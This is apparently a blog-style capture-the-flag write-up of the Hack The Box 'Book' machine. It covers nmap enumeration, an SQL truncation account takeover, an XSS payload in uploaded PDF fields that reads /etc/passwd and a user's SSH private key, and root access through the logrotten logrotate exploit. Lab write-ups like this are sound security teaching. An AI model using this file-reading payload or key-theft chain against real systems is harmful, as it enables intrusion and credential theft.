 ```yaml
---
layout: post
title:  htb-book
date:   2020-07-25 07:00:00
---
```


# Enum
### NMAP

As always, begin with nmap  

>nmap -sC -sV -T4 -p 22,80 10.10.10.176  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03  
>Nmap scan report for 10.10.10.176  
>Host is up (0.19s latency).  
>  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
>| ssh-hostkey:   
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)  
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)  
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)  
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
>| http-cookie-flags:   
>|   /:   
>|     PHPSESSID:   
>|_      httponly flag not set  
>|_http-server-header: Apache/2.4.29 (Ubuntu)  
>|_http-title: LIBRARY - Read | Learn | Have Fun  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second    
  
Opening the port 80 I got this  
![book1](/book/book1.png)

After register I found the admin  email: admin@book.htb  
![book2](/book/book3.png)

At first I didn't know what to do with this  
Until I back to home page, look the source and find this  
![book3](/book/book2.png)  

### SQL Truncation

Using *[SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack/)* with Burp Suite I tested "name" and "email" fields with more characters  

![book4](/book/book4.png)  

Logged in with the credentials admin@book.htb qwerty  

![book5](/book/book5.png)  

Using *[this](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)* as reference I found a way in  
### Exploit

Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script  
\*Missing tags  

x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();  

Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd  

![book6](/book/book6.png)  

If I was runnin to get user blood next step would be "file:///home/reader/user.txt"  

Before get the id\_rsa from reader I tried root, perhaps....  

Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id\_rsa and uploaded a new pdf, downloaded it again and a got the id\_rsa from user reader  

Copy that to another file called id\_rsa and "chmod 600 id\_rsa"  

![book7](/book/book7.png)  

Now just "ssh -i id\_rsa reader@10.10.10.176" and smile  

![book8](/book/book8.png)
# Priv Esc

After a enumerte almost everything and don't find nothing  

I used [pspy](https://github.com/DominicBreuker/pspy.git) and find root process  
scp -i id\_rsa pspy64s reader@10.10.10.176  


pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg  

![book9](/book/book9.png)

Search logrotate exploit in google and found [this](https://github.com/whotwagner/logrotten) on github  
Cloned the repository and uploaded it with scp command  
Unziped the archive and compiled the logrotten.c with gcc

gcc -o logrotten logrotten.c  

Created the payload  and executed logrotten

![book10](/book/book10.png)  

Now just cat /tmp/id\_rsa to another file and ssh to root


![book11](/book/book11.png)  
![book12](/book/book12.png)  

